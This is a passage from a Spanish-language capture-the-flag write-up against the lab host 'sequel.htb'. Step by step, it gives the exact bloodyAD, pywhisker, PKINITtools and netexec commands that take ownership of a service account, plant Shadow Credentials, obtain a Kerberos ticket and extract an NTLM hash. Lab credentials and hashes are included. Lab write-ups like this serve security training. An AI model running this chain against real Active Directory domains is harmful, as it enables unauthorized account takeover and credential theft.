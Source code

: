 esto se va a instalar en tu entorno, tambien fuera de esa carpeta necesitaremos las herramientas del repositorio PKINITtools:
```bash
git clone https://github.com/dirkjanm/PKINITtools
cd PKINITtools
pip3 install .
```

ahora, lo que haremos serán los comando en el siguiente orden (recuerda tener presente los directorios donde están las herramientas):

1 Vamos a apoderarnos de la cuenta del usuario ca_svc gracias al atributo *writeowner* que nos permite modificar NTSecurityDescriptor:
```bash
bloodyAD --host 10.10.10.10 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner CA_SVC RYAN 
```

2 me voy a otorgar permisos generales sobre la cuenta, para tener la capacidad de cambiar cualquier atributo, lo que nos va a permitir añadir claves kerberos:
```bash
bloodyAD --host 10.129.231.236 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 add genericAll CA_SVC RYAN
```

3 voy a ejecutar un ataque de "*Shadow Credentials*" agregando una clave kerberos en el atributo *msDS-KeyCredentialLink* con la herramienta pywhisker, que va a generar un par de certificados en formato PEM, los agregara al usuario y nos lo dejara en el directorio. esto será crucial, dado que nos permitirá autenticarnos con certificados y no con hash o contraseñas:
```bash
python3 pywhisker.py -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --dc-ip 10.129.231.236 --target CA_svc --action add --filename CACert --export PEM
```

4 solicitar un TGT (ticket granting ticket) para el usuario ca_svc usando los certificados PEM para autenticarnos con kerberos y lo guardamos en ca_svc.ccache, esto sirve para no cambiar la contraseña del usuario ca_svc:
```bash
python3 ../../PKINITtools/gettgtpkinit.py -cert-pem CACert_cert.pem -key-pem CACert_priv.pem sequel.htb/ca_svc ca_svc.ccache
```

5 configurar la una variable de entorno KRB5ccname para que apunte al tgt para luego autenticarnos sin credenciales ya que esa variable es parte de las variables kerberos en linux:
```bash
export KRB5CCNAME=ca_svc.ccache
```

6 vamos a generar un hash NTLM a partir del TGT:
```bash
python ../../PKINITtools/getnthash.py -key d755c02de07677f61796d56e993cdbfd31c1a95b118b3b29c44d49e7ad564aa7 sequel.htb/ca_svc
```

para validar la autenticacion en el sistema con el hash ntlm usaremos (recuerda usar el hash que te ha dado la herramienta anterior):
```bash
netexec smb 10.129.231.236 -u ca_svc -H 3b181b914e7a9d5508ea1e20bc2b7fce
```
